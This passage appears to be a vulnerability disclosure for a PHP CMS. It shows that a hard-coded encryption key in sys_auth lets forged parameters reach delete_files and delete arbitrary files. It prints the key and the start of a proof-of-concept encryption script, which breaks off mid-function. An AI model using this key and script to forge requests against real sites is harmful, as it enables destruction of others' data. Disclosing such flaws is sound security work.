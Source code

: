 <img width="1084" alt="image" src="https://github.com/user-attachments/assets/b64f1427-811b-4ff9-aac7-4798e39d0ef3" />

When the sys_auth method is called, the key variable is not passed. Therefore, the key variable here is the constant value of Mc_Encryption_Key! View this value:

<img width="776" alt="image" src="https://github.com/user-attachments/assets/59aed29c-f8db-4118-97b8-315013b1bb5a" />

The encrypted key is hard-coded in the source code, so malicious parameter values can be generated based on this value!

Next, follow up to the delete_files method to see how to delete the files:

<img width="1512" alt="image" src="https://github.com/user-attachments/assets/48a69f00-9518-44ef-bef2-d9c642f94639" />

It can be seen that the first step is to determine whether the variable dir can be opened, that is, to check if it is a directory. If not, it directly returns FALSE! Deleting the file was unsuccessful! But the folder can be deleted! This has led to the deletion of any file!

Re-encrypt and decrypt the script:

```
<?php
define('Mc_Encryption_Key','8NmBPs61ZDbk5Ql');
function sys_auth($string, $type = 0, $key = '', $expiry = 0) {
    
    if(is_array($string)) $string = json_encode($string);
	if($type == 1) $string = str_replace('-','+',$string);
	$ckey_length = 4;
	$key = md5($key ? $key : Mc_Encryption_Key);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($type == 1 ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);
	$string = $type == 1 ? base64_decode(substr($string, $ckey_length)) :  sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);
	$result = '';
	$box = range(0, 255);
	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}
	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}
	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	} 
	if($type == 1) {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			$result = substr($result, 26);
			$json = json_decode($result,1);
			if(!is_numeric($result) && $json){
				return $json;
			}else{
```